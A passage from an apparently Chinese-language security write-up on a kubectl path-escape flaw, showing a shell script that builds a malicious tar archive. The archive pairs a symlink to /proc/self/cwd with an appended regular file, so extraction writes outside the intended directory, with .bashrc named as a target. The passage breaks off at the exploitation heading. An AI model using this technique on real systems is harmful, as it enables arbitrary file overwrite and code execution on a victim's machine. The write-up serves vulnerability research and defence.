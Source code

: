 - `./baddir/twist`是一个符号链接，指向`/proc/self/cwd`，即执行`kubectl`的当前路径
- 在写入`./baddir/twist/.bashrc`时实际写入的路径就是`/proc/self/cwd/.bashrc`

##### 漏洞利用
> tar有两个修改已有tar包的功能，`-u`是`update`，`-r`是`append`

- 创建恶意tar包
```bash
#!/bin/sh
# 创建符号链接并打包
mkdir ./baddir
ln -sf /proc/self/cwd ./baddir/twist
tar -cf pwn.tar ./baddir
# 把原先符号链接的目录换成普通目录，并在下面创建一个普通文件，追加到原先的tar包中
rm ./baddir/twist
mkdir ./baddir/twist
touch ./baddir/twist/hacked
echo 'You Are Hacked !!!' > ./baddir/twist/hacked
tar -rf pwn.tar ./baddir/twist/hacked
# 列出tar包内容
tar -tvf pwn.tar
echo "[*] Done!"
```
![](/assets/img/kubectl_path_escape4.png)

- 虽然使用`tar`命令解压会报错，但`kubectl`的解压是自己实现的，可以正常解压
![](/assets/img/kubectl_path_escape5.png)
- 在tar包中创建同名文件
```bash
echo "one" > foo
tar -cf test.tar foo
echo "two" > foo
tar -rf test.tar foo
tar -tvf test.tar
rm foo
tar xf test.tar
cat foo
```
![](/assets/img/kubectl_path_escape6.png)

- 利用